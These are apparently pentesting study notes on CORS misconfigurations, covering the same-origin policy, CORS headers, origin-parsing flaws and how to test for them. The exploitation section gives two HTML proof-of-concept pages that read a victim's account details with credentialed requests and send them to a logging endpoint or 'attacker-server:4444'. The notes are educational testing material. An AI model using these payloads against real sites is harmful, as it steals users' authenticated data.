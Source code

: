 ### Table of Contents
1. SOP - Same-Origin Policy
2. Source Code Example(s)
3. Header Flags
4. Vulnerabilities
5. Finding CORS
6. Exploiting CORS Vulns

[Good Resource]: https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties
[Video Version]: https://www.youtube.com/watch?v=wgkj4ZgxI4c
[Another Resource]: https://quitten.github.io/StackStorm/

-------------------------------------------------------------------

### 1. SOP - Same-Origin Policy
+ Browser bontrols access to data b/w web apps
+ This **DOES NOT** prevent **WRITING** b/w web apps
 - only _reading_
 
**Access b/w origins**
_scheme, hotname, and port must match_

+ scheme (protocol)
 - Example: `https`
+ hostname (domain)
 - Example: `test.com`
+ port
 - Example: `443`

-------------------------------------------------------------------

### 2. Source Code Example(s)
```Java
@CrossOrigins(origins = "http://domain2.com")
public class AccountController {
    [...]
}
```

-------------------------------------------------------------------

### 3. Header Flags

[Header1]: Access-Control-Allow-Origin
+ Whether the response can be shared with requesting code from the given origin
  1. `Access-Control-Allow-Origin: *`
    - allows all
  
  2. `Access-Control-Allow-Origin: <origin>`
    + specify **ONE origin**
    + **CANNOT do multiple**
     - This is why CORS exists a lot
     - To do securely must do **dynamic generation**
     
  3. `Access-Control-Allow-Origin: null`
    + COR Redirect
    + Sandboxed COR requests
  
[Header2]: Access-Control-Allow-Credentials
* Example: `Access-Control-Allow-Credentials: true`
* Or it's not set at all

* If wildcard `*` is set **CREDS NOT ALLOWED**
`Access-Control-Allow-Credentials: *`

Creds can be to be included; such as:
+ Allows cookies 
+ Authorization Headers
+ TLS Certificates

-------------------------------------------------------------------

### 4. Vulnerabilities

1. Extracintg _origin from request (client controlled)_ and putting it in the
   _server_ generated `Access-Control-Allow Origin`

2. Errors in how server _parses orgin headers_
  + Such as granting access to all domains that _end in a specific string_ `(like bank.com)`
   - Attacker just makes a bypass like `maliciousbank.com`
   
  + Such as granting access to all domains that _start in a specific string_ `(like bank.com)`
   - Attacker bypsses with something like `bank.com.malicious.com`
   
3. Whitelisting `null` origin value
  + Equivalent to a wildcard `*`
  + Like an _sandboxed iframe_ -  which will make it seem null
  + `null` allows access to _credentialed resources_

-------------------------------------------------------------------

### 5. Find CORS

* Gray-Box: Start by black-box testing then when you find something, look at source code

**Black-Box**  
+ Mapp application
+ Test the app for dynamic generation
 - Does it _reflect_ the _user-supplied_ `ACAO header`?
 - Does it validate the _start/end_ of a _specific string_?
 - Does it allow a null origin?
  * Put null in header
 - Does it restrict the protocol
 - Does it allow credentials?
  * Check header
 
**White-Box**  
+ Identify framework
+ What technology allows for CORS configuration
+ Review code to identify misconfigurations in CORS rules

-------------------------------------------------------------------

### 6. Exploiting CORS Vulns

1. If app allows for **credentials**
  + Server genrated _user supplied_ `Origin`
  + Validate on the _start/end_ of a `specific string`
  
```PoC
<html>
    <body>
    <h1>Hello</h1>
    <script>
        var xhr = new XMLHttpRequest();
        var url = 'https://vulnerable-site.com';
        
        xhr.onreadystatechange = function() {
            if (xhr.readyState == XMLHttpRequest.DONE) {
                fetch('/log?key=' + xhr.responseText)
            }
        }
        
        xhr.open('GET', url + '/accountDetails', true);
        xhr.withCredentials = true;
        xhr.send(null);
    </script>
    </body>
</html>
```

   ==========================================================

2. If App allows for **credentials**
  + Access-Control-Allow-Origin: `null`
  + Server genrated _user supplied_ `Origin`
  + Validate on the _start/end_ of a `specific string`
  
```PoC-Run_In_iframe
<html>
    <body>
    <h1>Hello</h1>
    <iframe style="display: none;" sandbox="allow-scripts" srcdoc="
    <script>
        var xhr = new XMLHttpRequest();
        var url = 'https://vulnerable-site.com';
        
        xhr.onreadystatechange = function() {
            if (xhr.readyState == XMLHttpRequest.DONE) {
                fetch('http://attacker-server:4444/log?key=' + xhr.responseText)
            }
        }
        
        xhr.open('GET', url + '/accountDetails', true);
        xhr.withCredentials = true;
        xhr.send(null)
    </script>"></iframe>
    </body>
</html>
```

3. If app _DOES NOT_ allow for credentials
  + Does it have security impact?
[Real World Example]: http://blog.saynotolinux.com/blog/2016/08/15/jetbrains-ide-remote-code-execution-and-local-file-disclosure-vulnerability-analysis/

  + Can be vulnerable form **with the Internal Network**
  + If `localhost webserver` _allows all_
   - A user clicks a malicious site
   - The site _asks the browser_ to _request ssh creds_ from the `local server`
   
4. Automated - WAVS (Web Application Vulnerability Scanners)


-------------------------------------------------------------------

